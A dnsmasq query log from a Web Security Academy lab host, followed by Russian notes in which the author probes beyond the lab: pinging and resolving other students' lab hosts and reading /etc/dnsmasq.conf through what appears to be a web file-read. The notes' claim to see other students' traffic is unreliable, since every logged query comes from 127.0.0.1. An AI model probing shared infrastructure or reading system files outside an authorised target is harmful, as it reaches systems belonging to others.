Feb 11 18:42:29 dnsmasq[322]: 18 127.0.0.1/58693 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:42:29 dnsmasq[322]: 18 127.0.0.1/58693 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:43:29 dnsmasq[322]: 19 127.0.0.1/41149 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:43:29 dnsmasq[322]: 19 127.0.0.1/41149 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:43:29 dnsmasq[322]: 19 127.0.0.1/41149 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:43:29 dnsmasq[322]: 19 127.0.0.1/41149 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:44:29 dnsmasq[322]: 20 127.0.0.1/40132 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:44:29 dnsmasq[322]: 20 127.0.0.1/40132 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:44:29 dnsmasq[322]: 20 127.0.0.1/40132 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:44:29 dnsmasq[322]: 20 127.0.0.1/40132 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:45:29 dnsmasq[322]: 21 127.0.0.1/34044 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:45:29 dnsmasq[322]: 21 127.0.0.1/34044 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:45:29 dnsmasq[322]: 21 127.0.0.1/34044 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:45:29 dnsmasq[322]: 21 127.0.0.1/34044 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:46:29 dnsmasq[322]: 22 127.0.0.1/40557 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:46:29 dnsmasq[322]: 22 127.0.0.1/40557 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:46:29 dnsmasq[322]: 22 127.0.0.1/40557 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:46:29 dnsmasq[322]: 22 127.0.0.1/40557 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:47:29 dnsmasq[322]: 23 127.0.0.1/56494 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:47:29 dnsmasq[322]: 23 127.0.0.1/56494 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:47:29 dnsmasq[322]: 23 127.0.0.1/56494 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:47:29 dnsmasq[322]: 23 127.0.0.1/56494 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:48:29 dnsmasq[322]: 24 127.0.0.1/56074 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:48:29 dnsmasq[322]: 24 127.0.0.1/56074 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:48:29 dnsmasq[322]: 24 127.0.0.1/56074 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:48:29 dnsmasq[322]: 24 127.0.0.1/56074 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:49:29 dnsmasq[322]: 25 127.0.0.1/53636 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:49:29 dnsmasq[322]: 25 127.0.0.1/53636 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:49:29 dnsmasq[322]: 25 127.0.0.1/53636 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:49:29 dnsmasq[322]: 25 127.0.0.1/53636 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:50:29 dnsmasq[322]: 26 127.0.0.1/59881 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:50:29 dnsmasq[322]: 26 127.0.0.1/59881 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:50:29 dnsmasq[322]: 26 127.0.0.1/59881 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:50:29 dnsmasq[322]: 26 127.0.0.1/59881 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:50:59 dnsmasq[322]: 27 127.0.0.1/56206 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:50:59 dnsmasq[322]: 27 127.0.0.1/56206 cached 2.web-security-academy.net is 10.0.3.183
Feb 11 18:50:59 dnsmasq[322]: 27 127.0.0.1/56206 cached 2.web-security-academy.net is 10.0.4.209
Feb 11 18:51:59 dnsmasq[322]: 28 127.0.0.1/59351 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:51:59 dnsmasq[322]: 28 127.0.0.1/59351 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:51:59 dnsmasq[322]: 28 127.0.0.1/59351 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:51:59 dnsmasq[322]: 28 127.0.0.1/59351 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:52:59 dnsmasq[322]: 29 127.0.0.1/41675 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:52:59 dnsmasq[322]: 29 127.0.0.1/41675 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:52:59 dnsmasq[322]: 29 127.0.0.1/41675 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:52:59 dnsmasq[322]: 29 127.0.0.1/41675 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:53:59 dnsmasq[322]: 30 127.0.0.1/42652 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:53:59 dnsmasq[322]: 30 127.0.0.1/42652 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:53:59 dnsmasq[322]: 30 127.0.0.1/42652 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:53:59 dnsmasq[322]: 30 127.0.0.1/42652 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:54:59 dnsmasq[322]: 31 127.0.0.1/50958 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:54:59 dnsmasq[322]: 31 127.0.0.1/50958 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:54:59 dnsmasq[322]: 31 127.0.0.1/50958 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:54:59 dnsmasq[322]: 31 127.0.0.1/50958 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:55:59 dnsmasq[322]: 32 127.0.0.1/46661 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:55:59 dnsmasq[322]: 32 127.0.0.1/46661 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:55:59 dnsmasq[322]: 32 127.0.0.1/46661 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:55:59 dnsmasq[322]: 32 127.0.0.1/46661 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:56:59 dnsmasq[322]: 33 127.0.0.1/36162 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:56:59 dnsmasq[322]: 33 127.0.0.1/36162 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:56:59 dnsmasq[322]: 33 127.0.0.1/36162 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:56:59 dnsmasq[322]: 33 127.0.0.1/36162 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:57:59 dnsmasq[322]: 34 127.0.0.1/38325 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:57:59 dnsmasq[322]: 34 127.0.0.1/38325 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:57:59 dnsmasq[322]: 34 127.0.0.1/38325 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:57:59 dnsmasq[322]: 34 127.0.0.1/38325 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:58:24 dnsmasq[322]: 35 127.0.0.1/59038 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 35 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 36 127.0.0.1/59038 query[AAAA] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 36 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 37 127.0.0.1/59038 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 37 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 38 127.0.0.1/59038 query[AAAA] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 38 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 39 127.0.0.1/59038 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 39 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 40 127.0.0.1/59038 query[AAAA] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 40 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 41 127.0.0.1/59038 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 41 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 42 127.0.0.1/59038 query[AAAA] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 42 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 43 127.0.0.1/59038 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 43 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 44 127.0.0.1/59038 query[AAAA] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 44 127.0.0.1/59038 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 45 127.0.0.1/43435 query[A] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 45 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 46 127.0.0.1/43435 query[AAAA] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 46 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 47 127.0.0.1/43435 query[A] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 47 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 48 127.0.0.1/43435 query[AAAA] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 48 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 49 127.0.0.1/43435 query[A] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 49 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 50 127.0.0.1/43435 query[AAAA] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 50 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 51 127.0.0.1/43435 query[A] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 51 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 52 127.0.0.1/43435 query[AAAA] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 52 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 53 127.0.0.1/43435 query[A] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 53 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:24 dnsmasq[322]: 54 127.0.0.1/43435 query[AAAA] ep from 127.0.0.1
Feb 11 18:58:24 dnsmasq[322]: 54 127.0.0.1/43435 config error is REFUSED (EDE: not ready)
Feb 11 18:58:59 dnsmasq[322]: 55 127.0.0.1/47705 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:58:59 dnsmasq[322]: 55 127.0.0.1/47705 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:58:59 dnsmasq[322]: 55 127.0.0.1/47705 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:58:59 dnsmasq[322]: 55 127.0.0.1/47705 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 18:59:59 dnsmasq[322]: 56 127.0.0.1/33630 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:59:59 dnsmasq[322]: 56 127.0.0.1/33630 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 18:59:59 dnsmasq[322]: 56 127.0.0.1/33630 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 18:59:59 dnsmasq[322]: 56 127.0.0.1/33630 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:00:59 dnsmasq[322]: 57 127.0.0.1/47309 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:00:59 dnsmasq[322]: 57 127.0.0.1/47309 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:00:59 dnsmasq[322]: 57 127.0.0.1/47309 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:00:59 dnsmasq[322]: 57 127.0.0.1/47309 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:01:59 dnsmasq[322]: 58 127.0.0.1/48356 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:01:59 dnsmasq[322]: 58 127.0.0.1/48356 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:01:59 dnsmasq[322]: 58 127.0.0.1/48356 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:01:59 dnsmasq[322]: 58 127.0.0.1/48356 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:02:59 dnsmasq[322]: 59 127.0.0.1/34708 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:02:59 dnsmasq[322]: 59 127.0.0.1/34708 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:02:59 dnsmasq[322]: 59 127.0.0.1/34708 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:02:59 dnsmasq[322]: 59 127.0.0.1/34708 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:03:59 dnsmasq[322]: 60 127.0.0.1/38610 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:03:59 dnsmasq[322]: 60 127.0.0.1/38610 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:03:59 dnsmasq[322]: 60 127.0.0.1/38610 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:03:59 dnsmasq[322]: 60 127.0.0.1/38610 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:04:59 dnsmasq[322]: 61 127.0.0.1/60222 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:04:59 dnsmasq[322]: 61 127.0.0.1/60222 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:04:59 dnsmasq[322]: 61 127.0.0.1/60222 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:04:59 dnsmasq[322]: 61 127.0.0.1/60222 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:05:59 dnsmasq[322]: 62 127.0.0.1/40563 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:05:59 dnsmasq[322]: 62 127.0.0.1/40563 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:05:59 dnsmasq[322]: 62 127.0.0.1/40563 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:05:59 dnsmasq[322]: 62 127.0.0.1/40563 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:06:59 dnsmasq[322]: 63 127.0.0.1/52901 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:06:59 dnsmasq[322]: 63 127.0.0.1/52901 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:06:59 dnsmasq[322]: 63 127.0.0.1/52901 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:06:59 dnsmasq[322]: 63 127.0.0.1/52901 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:07:59 dnsmasq[322]: 64 127.0.0.1/33814 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:07:59 dnsmasq[322]: 64 127.0.0.1/33814 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:07:59 dnsmasq[322]: 64 127.0.0.1/33814 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:07:59 dnsmasq[322]: 64 127.0.0.1/33814 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:08:59 dnsmasq[322]: 65 127.0.0.1/38075 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:08:59 dnsmasq[322]: 65 127.0.0.1/38075 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:08:59 dnsmasq[322]: 65 127.0.0.1/38075 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:08:59 dnsmasq[322]: 65 127.0.0.1/38075 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:09:59 dnsmasq[322]: 66 127.0.0.1/51199 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:09:59 dnsmasq[322]: 66 127.0.0.1/51199 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:09:59 dnsmasq[322]: 66 127.0.0.1/51199 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:09:59 dnsmasq[322]: 66 127.0.0.1/51199 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:10:59 dnsmasq[322]: 67 127.0.0.1/34701 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:10:59 dnsmasq[322]: 67 127.0.0.1/34701 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:10:59 dnsmasq[322]: 67 127.0.0.1/34701 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:10:59 dnsmasq[322]: 67 127.0.0.1/34701 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:11:59 dnsmasq[322]: 68 127.0.0.1/47261 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:11:59 dnsmasq[322]: 68 127.0.0.1/47261 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:11:59 dnsmasq[322]: 68 127.0.0.1/47261 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:11:59 dnsmasq[322]: 68 127.0.0.1/47261 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:12:59 dnsmasq[322]: 69 127.0.0.1/46462 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:12:59 dnsmasq[322]: 69 127.0.0.1/46462 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:12:59 dnsmasq[322]: 69 127.0.0.1/46462 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:12:59 dnsmasq[322]: 69 127.0.0.1/46462 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:13:59 dnsmasq[322]: 70 127.0.0.1/59097 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:13:59 dnsmasq[322]: 70 127.0.0.1/59097 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:13:59 dnsmasq[322]: 70 127.0.0.1/59097 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:13:59 dnsmasq[322]: 70 127.0.0.1/59097 reply 2.web-security-academy.net is 10.0.4.209
```

##  **ГЛАВНЫЕ ОТКРОВЕНИЯ ИЗ ЛОГА**
###  **ВСЕ ЛАБЫ — В ОДНОЙ СЕТИ**
2.web-security-academy.net is 10.0.3.183
2.web-security-academy.net is 10.0.4.209

### **ТРАФИК ДРУГИХ СТУДЕНТОВ**

```
Feb 11 18:27:59 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:28:35 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 18:29:29 query[A] 2.web-security-academy.net from 127.0.0.1
```

### **Я ПОЙМАЛ САМ СЕБЯ ЗА РУКУ!**

```
Feb 11 18:58:24 query[A] ep.eu-west-1.compute.internal from 127.0.0.1
Feb 11 18:58:24 config error is REFUSED (EDE: not ready)
```

### **ОХОТА НА ДРУГИЕ ЛАБЫ**
запрос `ping -c 1 10.0.3.183`
```
ping: sendmsg: Operation not permitted
```

### **ПОИСК ДРУГИХ ДОМЕНОВ**
запрос `nslookup cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net 127.0.0.1`
ответ 
```
Server:		127.0.0.1
Address:	127.0.0.1#53

Non-authoritative answer:
Name:	cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net
Address: 10.0.4.200
Name:	cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net
Address: 10.0.3.90
```

запрос `cat /etc/dnsmasq.conf`
ответ 
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 27886

# Configuration file for dnsmasq.
#
# Format is one option per line, legal options are the same
# as the long options legal on the command line. See
# "/usr/sbin/dnsmasq --help" or "man 8 dnsmasq" for details.

# Listen on this specific port instead of the standard DNS port
# (53). Setting this to zero completely disables DNS function,
# leaving only DHCP and/or TFTP.
#port=5353

# The following two options make you a better netizen, since they
# tell dnsmasq to filter out queries which the public DNS cannot
# answer, and which load the servers (especially the root servers)
# unnecessarily. If you have a dial-on-demand link they also stop
# these requests from bringing up the link unnecessarily.

# Never forward plain names (without a dot or domain part)
#domain-needed
# Never forward addresses in the non-routed address spaces.
#bogus-priv

# Uncomment these to enable DNSSEC validation and caching:
# (Requires dnsmasq to be built with DNSSEC option.)
#conf-file=%%PREFIX%%/share/dnsmasq/trust-anchors.conf
#dnssec

# Replies which are not DNSSEC signed may be legitimate, because the domain
# is unsigned, or may be forgeries. Setting this option tells dnsmasq to
# check that an unsigned reply is OK, by finding a secure proof that a DS 
# record somewhere between the root and the domain does not exist. 
# The cost of setting this is that even queries in unsigned domains will need
# one or more extra DNS queries to verify.
#dnssec-check-unsigned

# Uncomment this to filter useless windows-originated DNS requests
# which can trigger dial-on-demand links needlessly.
# Note that (amongst other things) this blocks all SRV requests,
# so don't use it if you use eg Kerberos, SIP, XMMP or Google-talk.
# This option only affects forwarding, SRV records originating for
# dnsmasq (via srv-host= lines) are not suppressed by it.
#filterwin2k

# Change this line if you want dns to get its upstream servers from
# somewhere other that /etc/resolv.conf
#resolv-file=

# By  default,  dnsmasq  will  send queries to any of the upstream
# servers it knows about and tries to favour servers to are  known
# to  be  up.  Uncommenting this forces dnsmasq to try each query
# with  each  server  strictly  in  the  order  they   appear   in
# /etc/resolv.conf
#strict-order

# If you don't want dnsmasq to read /etc/resolv.conf or any other
# file, getting its servers from this file instead (see below), then
# uncomment this.
#no-resolv

# If you don't want dnsmasq to poll /etc/resolv.conf or other resolv
# files for changes and re-read them then uncomment this.
#no-poll

# Add other name servers here, with domain specs if they are for
# non-public domains.
#server=/localnet/192.168.0.1

# Example of routing PTR queries to nameservers: this will send all
# address->name queries for 192.168.3/24 to nameserver 10.1.2.3
#server=/3.168.192.in-addr.arpa/10.1.2.3

# Add local-only domains here, queries in these domains are answered
# from /etc/hosts or DHCP only.
#local=/localnet/

# Add domains which you want to force to an IP address here.
# The example below send any host in double-click.net to a local
# web-server.
#address=/double-click.net/127.0.0.1

# --address (and --server) work with IPv6 addresses too.
#address=/www.thekelleys.org.uk/fe80::20d:60ff:fe36:f83

# Add the IPs of all queries to yahoo.com, google.com, and their
# subdomains to the vpn and search ipsets:
#ipset=/yahoo.com/google.com/vpn,search

# Add the IPs of all queries to yahoo.com, google.com, and their
# subdomains to netfilters sets, which is equivalent to
# 'nft add element ip test vpn { ... }; nft add element ip test search { ... }'
#nftset=/yahoo.com/google.com/ip#test#vpn,ip#test#search

# Use netfilters sets for both IPv4 and IPv6:
# This adds all addresses in *.yahoo.com to vpn4 and vpn6 for IPv4 and IPv6 addresses.
#nftset=/yahoo.com/4#ip#test#vpn4
#nftset=/yahoo.com/6#ip#test#vpn6

# You can control how dnsmasq talks to a server: this forces
# queries to 10.1.2.3 to be routed via eth1
# server=10.1.2.3@eth1

# and this sets the source (ie local) address used to talk to
# 10.1.2.3 to 192.168.1.1 port 55 (there must be an interface with that
# IP on the machine, obviously).
# server=10.1.2.3@192.168.1.1#55

# If you want dnsmasq to change uid and gid to something other
# than the default, edit the following lines.
#user=
#group=

# If you want dnsmasq to listen for DHCP and DNS requests only on
# specified interfaces (and the loopback) give the name of the
# interface (eg eth0) here.
# Repeat the line for more than one interface.
#interface=
# Or you can specify which interface _not_ to listen on
#except-interface=
# Or which to listen on by address (remember to include 127.0.0.1 if
# you use this.)
#listen-address=
# If you want dnsmasq to provide only DNS service on an interface,
# configure it as shown above, and then use the following line to
# disable DHCP and TFTP on it.
#no-dhcp-interface=

# On systems which support it, dnsmasq binds the wildcard address,
# even when it is listening on only some interfaces. It then discards
# requests that it shouldn't reply to. This has the advantage of
# working even when interfaces come and go and change address. If you
# want dnsmasq to really bind only the interfaces it is listening on,
# uncomment this option. About the only time you may need this is when
# running another nameserver on the same machine.
#bind-interfaces

# If you don't want dnsmasq to read /etc/hosts, uncomment the
# following line.
#no-hosts
# or if you want it to read another file, as well as /etc/hosts, use
# this.
#addn-hosts=/etc/banner_add_hosts

# Set this (and domain: see below) if you want to have a domain
# automatically added to simple names in a hosts-file.
#expand-hosts

# Set the domain for dnsmasq. this is optional, but if it is set, it
# does the following things.
# 1) Allows DHCP hosts to have fully qualified domain names, as long
#     as the domain part matches this setting.
# 2) Sets the "domain" DHCP option thereby potentially setting the
#    domain of all systems configured by DHCP
# 3) Provides the domain part for "expand-hosts"
#domain=thekelleys.org.uk

# Set a different domain for a particular subnet
#domain=wireless.thekelleys.org.uk,192.168.2.0/24

# Same idea, but range rather then subnet
#domain=reserved.thekelleys.org.uk,192.68.3.100,192.168.3.200

# Uncomment this to enable the integrated DHCP server, you need
# to supply the range of addresses available for lease and optionally
# a lease time. If you have more than one network, you will need to
# repeat this for each network on which you want to supply DHCP
# service.
#dhcp-range=192.168.0.50,192.168.0.150,12h

# This is an example of a DHCP range where the netmask is given. This
# is needed for networks we reach the dnsmasq DHCP server via a relay
# agent. If you don't know what a DHCP relay agent is, you probably
# don't need to worry about this.
#dhcp-range=192.168.0.50,192.168.0.150,255.255.255.0,12h

# This is an example of a DHCP range which sets a tag, so that
# some DHCP options may be set only for this network.
#dhcp-range=set:red,192.168.0.50,192.168.0.150

# Use this DHCP range only when the tag "green" is set.
#dhcp-range=tag:green,192.168.0.50,192.168.0.150,12h

# Specify a subnet which can't be used for dynamic address allocation,
# is available for hosts with matching --dhcp-host lines. Note that
# dhcp-host declarations will be ignored unless there is a dhcp-range
# of some type for the subnet in question.
# In this case the netmask is implied (it comes from the network
# configuration on the machine running dnsmasq) it is possible to give
# an explicit netmask instead.
#dhcp-range=192.168.0.0,static

# Enable DHCPv6. Note that the prefix-length does not need to be specified
# and defaults to 64 if missing/
#dhcp-range=1234::2, 1234::500, 64, 12h

# Do Router Advertisements, BUT NOT DHCP for this subnet.
#dhcp-range=1234::, ra-only 

# Do Router Advertisements, BUT NOT DHCP for this subnet, also try and
# add names to the DNS for the IPv6 address of SLAAC-configured dual-stack 
# hosts. Use the DHCPv4 lease to derive the name, network segment and 
# MAC address and assume that the host will also have an
# IPv6 address calculated using the SLAAC algorithm.
#dhcp-range=1234::, ra-names

# Do Router Advertisements, BUT NOT DHCP for this subnet.
# Set the lifetime to 46 hours. (Note: minimum lifetime is 2 hours.)
#dhcp-range=1234::, ra-only, 48h

# Do DHCP and Router Advertisements for this subnet. Set the A bit in the RA
# so that clients can use SLAAC addresses as well as DHCP ones.
#dhcp-range=1234::2, 1234::500, slaac

# Do Router Advertisements and stateless DHCP for this subnet. Clients will
# not get addresses from DHCP, but they will get other configuration information.
# They will use SLAAC for addresses.
#dhcp-range=1234::, ra-stateless

# Do stateless DHCP, SLAAC, and generate DNS names for SLAAC addresses
# from DHCPv4 leases.
#dhcp-range=1234::, ra-stateless, ra-names

# Do router advertisements for all subnets where we're doing DHCPv6
# Unless overridden by ra-stateless, ra-names, et al, the router 
# advertisements will have the M and O bits set, so that the clients
# get addresses and configuration from DHCPv6, and the A bit reset, so the 
# clients don't use SLAAC addresses.
#enable-ra

# Supply parameters for specified hosts using DHCP. There are lots
# of valid alternatives, so we will give examples of each. Note that
# IP addresses DO NOT have to be in the range given above, they just
# need to be on the same network. The order of the parameters in these
# do not matter, it's permissible to give name, address and MAC in any
# order.

# Always allocate the host with Ethernet address 11:22:33:44:55:66
# The IP address 192.168.0.60
#dhcp-host=11:22:33:44:55:66,192.168.0.60

# Always set the name of the host with hardware address
# 11:22:33:44:55:66 to be "fred"
#dhcp-host=11:22:33:44:55:66,fred

# Always give the host with Ethernet address 11:22:33:44:55:66
# the name fred and IP address 192.168.0.60 and lease time 45 minutes
#dhcp-host=11:22:33:44:55:66,fred,192.168.0.60,45m

# Give a host with Ethernet address 11:22:33:44:55:66 or
# 12:34:56:78:90:12 the IP address 192.168.0.60. Dnsmasq will assume
# that these two Ethernet interfaces will never be in use at the same
# time, and give the IP address to the second, even if it is already
# in use by the first. Useful for laptops with wired and wireless
# addresses.
#dhcp-host=11:22:33:44:55:66,12:34:56:78:90:12,192.168.0.60

